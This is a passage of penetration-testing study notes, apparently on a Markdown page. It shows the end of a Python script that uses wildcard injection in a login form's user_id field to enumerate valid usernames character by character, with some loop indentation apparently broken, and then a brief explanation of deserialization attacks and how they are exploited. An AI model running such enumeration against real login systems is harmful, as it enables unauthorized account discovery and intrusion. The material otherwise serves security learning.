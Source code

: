     		if r.status_code == 301:
    				initial_users.append(character)
    	return initial_users
    
    def getUsers(initial_users):
    	
    	characters = string.ascii_lowercase
    	headers = {'Content-Type':'application/x-www-form-urlencoded'}
    	
    	valid_users = []
    	for first_character in initial_users:
    		
    		user = ""
    		for position in range(0, 15):
    
    			for character in characters:
    			
    				post_data = "user_id={}{}{}*&password=*&login=1&submit=Submit".format(first_character, user, character)
    
    			r = requests.post(main_url, data=post_data, headers=headers, allow_redirects=False, proxies=burp)
    
    			if r.status_code == 301:
    				
    				user += character
    				break
    		valid_users.append(first_character +  user)
    
    	return valid_users
    
    if __name__ == '__main__':
    
    initial_users = getInitialUsers()
    getUsers(initial_users)
    ```
    

## Deserealization Attack

The deserealizaiton attacks are a type of vulnerability in the processes of **seralization and deserealization** of objects in the application that uses Object Oriented Programming (OOP).

  

Serialization is the proccess of converting an object in to a byte sequence that can be stored or trasmited through the network. Deserealization in the other hand is the inverse proccess of this, in which the byte secuence is converted back to an object.

The deserealization attacks occurs when an attacker can manipulate the data that is being deserealizated and lead to, for example, RCE in the server.

  

This attacks can occur in many type of applications, including web applications, mobile applications and desk applications. This attacks can be exploited in ways such as:

- Modifying the serialized object before is sent to the application, which can cause errors while desearializing.
- Sending an malicious serialized object that exploits a certain vulnerability of the application.
- Conducting a MiTM attack to intercept and modify the serialized object before it arrives at the application.

---